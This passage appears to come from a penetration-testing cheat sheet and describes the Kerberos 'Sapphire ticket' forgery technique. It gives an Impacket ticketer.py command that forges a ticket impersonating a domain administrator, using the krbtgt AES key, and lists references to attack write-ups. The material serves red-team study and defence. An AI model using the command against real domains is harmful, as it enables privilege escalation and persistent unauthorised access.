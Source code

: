 ## Pass-the-Ticket Sapphire Tickets

> Requesting the target user's PAC with `S4U2self+U2U` exchange during TGS-REQ(P) (PKINIT).

The goal is to mimic the PAC field as close as possible to a legitimate one.

Requirements:

* [Impacket PR#1411](https://github.com/SecureAuthCorp/impacket/pull/1411)
* krbtgt AES key

```ps1
# baduser argument will be ignored
ticketer.py -request -impersonate 'domain_adm' -domain 'lab.local' -user 'domain_user' -password 'password' -aesKey 'krbtgt/service AES key' -domain-sid 'S-1-5-21-...' 'baduser'
```

## References

* [Golden ticket - Pentestlab](https://pentestlab.blog/2018/04/09/golden-ticket/)
* [How Attackers Use Kerberos Silver Tickets to Exploit Systems - Sean Metcalf](https://adsecurity.org/?p=2011)
* [How To Pass the Ticket Through SSH Tunnels - bluescreenofjeff](https://bluescreenofjeff.com/2017-05-23-how-to-pass-the-ticket-through-ssh-tunnels/)
* [Diamond tickets - The Hacker Recipes](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/diamond)
* [A Diamond (Ticket) in the Ruff - By CHARLIE CLARK July 05, 2022](https://www.semperis.com/blog/a-diamond-ticket-in-the-ruff/)
* [Sapphire tickets - The Hacker Recipes](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/sapphire)
* [WONKACHALL AKERVA NDH2018 – WRITE UP PART 1](https://akerva.com/blog/wonkachall-akerva-ndh-2018-write-up-part-1/)
* [WONKACHALL AKERVA NDH2018 – WRITE UP PART 2](https://akerva.com/blog/wonkachall-akerva-ndh2018-write-up-part-2/)
* [WONKACHALL AKERVA NDH2018 – WRITE UP PART 3](https://akerva.com/blog/wonkachall-akerva-ndh2018-write-up-part-3/)
* [WONKACHALL AKERVA NDH2018 – WRITE UP PART 4](https://akerva.com/blog/wonkachall-akerva-ndh2018-write-up-part-4/)
* [WONKACHALL AKERVA NDH2018 – WRITE UP PART 5](https://akerva.com/blog/wonkachall-akerva-ndh2018-write-up-part-5/)
* [How To Attack Kerberos 101 - m0chan - July 31, 2019](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html)
* [Kerberos (II): How to attack Kerberos? - June 4, 2019 - ELOY PÉREZ](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)
